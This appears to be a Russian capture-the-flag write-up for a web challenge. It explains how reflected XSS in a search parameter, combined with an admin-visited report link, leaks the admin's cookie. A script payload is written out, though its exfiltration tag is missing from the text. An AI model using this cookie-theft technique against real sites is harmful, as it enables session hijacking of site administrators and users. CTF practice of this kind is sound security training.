



# Клиент всегда прав

Описание: Какой-то админ ворует наши публикации и выставляет их на свой сайт. Ты ведь не будешь сидеть сложа руки?

При заходе на страницу таска мы видим список публикаций



При заходе на страницу отдельной публикации у нас в адресной строке появляется новый аргумент publication, указывающий на нужную публикацию (пример - `http://62.173.140.174:16013/?publication=ilon-mask`). При поиске добавляется аргумент search (например, `http://62.173.140.174:16013/?search=asd`). Это поле было проверено на возможность использования XSS



Также, на сайте есть кнопки репорта, предположительно, отправляющие администраторам сообщения о жалобах на различные публикации. В адресную строку добавляется сразу два аргумента - report и publication (например, `http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?publication=ilon-mask`)

После нескольких неудачных попыток использования XSS для вытягивания куки было выяснено, что запросы с помощью функции fetch не работают



Вместо fetch был использован другой способ получения запросов - использование html-тегов с ссылками. Был использован тег ``. XSS с кодом вставки этого тега была добавлена в ссылку, на которую ведёт аргумент report в запросе

```
http://62.173.140.174:16013/?search=<script>document.write('');</script>
```

В итоге, с админки прилетел запрос с необходимым флагом в куки


